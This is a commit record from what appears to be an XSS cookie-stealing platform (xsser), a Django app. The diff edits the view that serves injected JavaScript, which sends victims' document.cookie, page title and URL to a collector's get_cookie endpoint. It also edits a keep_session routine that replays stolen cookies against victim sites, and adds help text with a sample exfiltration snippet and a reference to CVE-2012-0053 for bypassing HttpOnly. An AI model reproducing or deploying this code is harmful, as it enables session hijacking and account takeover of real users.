

Before and after one commit to virusdefender/xsser, a Django app: page /project/settings/1/ in a window 1280 px wide. Shown: the part 145-593 px from the top of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository; both versions use the stored data as it was after the commit; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
change custom js model

```diff
--- a/core/views.py
+++ b/core/views.py
@@ -69,7 +69,7 @@ def xss_js(request):
     x.src=''+'%s'+'?id='+%s+'&title='+document.title+'&url='+escape(document.URL)+'&cookie='+escape(document.cookie);
     """ % (BASE_URL + "get_cookie/", p.id)
     if p.custom_js:
-        js = js + p.custom_js_content
+        js =  p.custom_js_content
     return HttpResponse(js)
 
 
@@ -138,7 +138,7 @@ def keep_session(request):
                 req = urllib2.Request(record.url)
                 req.add_header("cookie", record.cookie)
                 response = urllib2.urlopen(req)
-                print response.read()
+                #print response.read()
             except urllib2.URLError:
                 pass
 
--- a/templates/core/project_settings.html
+++ b/templates/core/project_settings.html
@@ -1,5 +1,5 @@
 {% extends "base.html" %}
-{% block title %}create project{% endblock %}
+{% block title %}Project settings{% endblock %}
 
 {% block body %}
 {% include "_nav_bar.html" %}
@@ -20,7 +20,15 @@
             {% endif %}
             <label>Custom js content</label>
             <textarea class="form-control" rows="3" name="custom_js_content">{{ project.custom_js_content }}</textarea><br/>
-            <p>The custom js will be appended to the origin js, you can click<a href="/xss?id={{ project.id }}" target="_blank"> here </a>to preview.</a></p>
+            <p>The custom js will replace the origin js, you can click<a href="/xss?id={{ project.id }}" target="_blank"> here </a>to preview.</a>
+            You can construct a url like this</p>
+            <p>
+                <code>var x=new Image();
+                       x.src=''+'http://127.0.0.1:8000/get_cookie/'+'?id=YOUR_PROJECT_ID'+'&title='+document.title+'&url='+escape(document.URL)+'&cookie=COOKIES';
+                </code>
+            </p>
+            <p>For example, you can user <code><a href="http://drops.wooyun.org/papers/501">CVE-2012-0053</a></code> to get cookies with http only flag.</p>
+
             <p><button type="submit" class="btn btn-primary" onclick="this.form.submit()" >Submit</button></p>
         </form>
 
```
Also changed, not shown: db.db.
